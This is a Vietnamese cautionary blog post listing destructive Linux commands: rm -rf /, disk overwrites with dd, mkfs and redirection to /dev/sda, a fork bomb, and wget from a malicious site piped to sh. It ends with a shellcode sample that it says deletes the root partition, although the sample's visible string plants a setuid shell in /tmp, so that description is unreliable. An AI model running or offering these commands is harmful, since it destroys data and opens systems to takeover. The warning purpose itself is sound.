

Như bạn đã biết, các câu lệnh trong Terminal thực sự rất hữu dụng và giúp cho người sử dụng có thể thao tác cực nhanh mà không cần phải qua GUI rườm rà. Tuy nhiên, nó cũng có nhiều rủi ro nếu như bạn sử dụng nó sai cách hoặc bạn không hề biết bạn đang thực thi câu lệnh có độ nguy hiểm như thế nào đối với hệ thống.

Bài viết này sẽ sơ lược qua các câu lệnh cực kỳ nguy hiểm cho Linux, nếu các câu lệnh này được thực thi, bạn có thể bị mất toàn bộ dữ liệu trong máy hoặc hệ điều hành sẽ không bao giờ khởi động được nữa.

**Xin lưu ý một lần nữa, bài viết này chỉ có tính chất tham khảo, hạn chế hoặc không chạy các câu lệnh bên dưới để tránh tạo rủi ro gây mất mát dữ liệu hoặc hỏng HĐH**

**Lệnh: rm -rf**

Đây là 1 trong những cách nhanh nhất để xoá file và folder, nhưng nếu nhập sai hoặc bạn không hiểu bản chất của câu lệnh này là gì thì sẽ gây ảnh hưởng nặng nề đến hệ thống.

Một số cách sử dụng câu lệnh này như bên dưới:

**`rm <tên file>`** : xoá file cụ thể. 
**`rm -r`** : xoá toàn bộ folder, kể cả folder rỗng. 
**`rm -f`** : bắt buộc xóa file (f ở đây là từ force). Lệnh này bỏ qua các tập tin ko tồn tại và sẽ không hiện ra cảnh báo trước khi xoá. (vì là bắt buộc nên xoá các file **write protected** và **read only** luôn). 
**`rm -rf /`** : buộc xoá tất cả mọi thứ trong folder gốc, kể cả folder được bảo vệ. 
**`rm -rf *`** : buộc xoá tất cả mọi thứ trong folder bạn đang làm việc. 
**`rm -rf .`** : buộc xoá tất cả folder hiện tại và sub-folder.

**Lệnh: `<CÂU LỆNH> >` /dev/sda**

Câu lệnh bên trên sẽ ghi output của **`<CÂU LỆNH>`** được thực hiện lên ổ cứng (ở đây là /DEV/SDA) và sẽ ghi đè và xóa sổ toàn bộ dữ liệu có sẵn trong đó.

**Lệnh: `:(){:|:&};:`**

Lệnh này thực chất là 1 quả bom, nó thực thi bằng việc định nghĩa hàm ':' và hàm này tự gọi lại chính nó (đệ quy). Nó sẽ sao chép chính bản thân nó nhiều lần và liên tục, gây tràn bộ nhớ hệ thống, dẫn tới đóng băng hệ thống.

**Lệnh: `mv <TÊN FOLDER> /dev/null`**

Nếu bạn thực thi lệnh này, nó sẽ di chuyển **`<TÊN FOLDER>`** đến **`/dev/null`**. Mà nơi này chính là một "lỗ đen" đúng nghĩa. Mọi dữ liệu di chuyển đến đây đều biến mất mãi mãi.

**Lệnh: `wget http://trang_chua_ma_doc -O- | sh`**

Câu lệnh ở trên sẽ tải script từ một trang chữa mã độc và thực thi với lệnh SH

Hãy chắc chắn bạn tin tưởng với trang web ở trong câu lệnh này, đừng copy, paste và thực thi vô tội vạ các lệnh ở trên mạng.

**Lệnh: `mkfs.ext3 /dev/sda`**

Lệnh này thì sẽ format lại toàn bộ dữ liệu trong ổ cứng, dữ liệu chắn chắn sẽ biến mất hoàn toàn khi thực thi nó.

Một số câu lệnh tương tự dùng để format ổ cứng (cần quyền sudo)

- mkfs 
- mkfs.ext3 
- mkfs.bfs 
- mkfs.ext2 
- mkfs.minix 
- mkfs.msdos 
- mkfs.reiserfs 
- mkfs.vfat 

Riêng mkfs.cramfs tác dụng tương tự như không cần sudo.

**Lệnh `> <FILE>`**

Xoá toàn bộ nội dung của **`<FILE>`**.

**Lệnh: `^foo^bar`**

được sử dụng để chỉnh sửa lệnh chạy trước đó mà không cần phải gõ lại toàn bộ câu lệnh. Nhưng có thể gây rắc rối nếu bạn không kiểm tra kỹ lưỡng thay đổi trong câu lệnh ban đầu.

**Lệnh: `dd if=/dev/random of=/dev/sda`**

Câu lệnh trên sẽ xóa sạch ổ cứng và ghi dữ liệu rác vào. Tất nhiên! Hệ thống của bạn sẽ bị hỏng hoàn toàn và khả năng phục hồi gần như = 0

**NHỮNG CÂU LỆNH NGUY HIỂM ĐÃ ĐƯỢC MÃ HOÁ**

`char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
“\x6e\x2f\x73\x68\x00\x2d\x63\x00″
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;`

Hẳn bạn nghĩ lệnh trên không gây ra vấn đề gì, nhưng không! Lệnh bên trên sẽ xoá phân vùng gốc ổ cứng của bạn.

**Bạn tuyệt đối không được copy, paste và thực thi một trong các câu lệnh không rõ nguồn gốc từ Internet để tránh những thiệt hại gây ra cho Linux do sự bất cẩn của bản thân mình.**

~~ Bài viết có kham thảo từ các nguồn uy tín ~~
P/s: nếu mình có sai sót gì trong bài viết thì mong các bạn góp ý để mình có thể chỉnh sửa bài viết và hoàn thiện nó một cách tốt nhất nhé :)

Nguồn: [Linux Team Việt Nam (Official Group) Post 1](https://www.facebook.com/groups/linuxteamvietnam2018/permalink/856171831568486/) 
Nguồn: [Linux Team Việt Nam (Official Group) Post 2](https://www.facebook.com/groups/linuxteamvietnam2018/permalink/856981638154172/)

